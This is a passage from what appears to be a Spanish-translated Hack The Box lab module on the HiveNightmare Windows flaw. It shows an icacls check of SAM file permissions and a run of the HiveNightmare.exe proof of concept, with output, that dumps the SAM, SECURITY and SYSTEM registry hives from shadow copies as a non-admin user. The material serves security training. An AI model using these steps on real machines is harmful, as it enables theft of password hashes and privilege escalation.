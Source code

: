 #### Verificación de permisos en el archivo SAM

Podemos verificar esta vulnerabilidad utilizando`icacls`Para verificar los permisos en el archivo SAM. En nuestro caso, tenemos una versión vulnerable ya que el archivo es legible por el`BUILTIN\Users`grupo.

  Exploits de núcleo

```cmd-session
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

La explotación exitosa también requiere la presencia de una o más copias de la sombra. La mayoría de los sistemas de Windows 10 tendrán`System Protection`habilitado de forma predeterminada que creará copias de seguridad periódicas, incluida la copia de la sombra necesaria para aprovechar este defecto.

#### Realizar ataques de ataque y análisis de la contraseña

Este[POC](https://github.com/GossiTheDog/HiveNightmare)Se puede utilizar para realizar el ataque, creando copias de las colmenas de registro mencionadas:

  Exploits de núcleo

```powershell-session
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07


Assuming no errors above, you should be able to find hive dump files in current working directory.
```

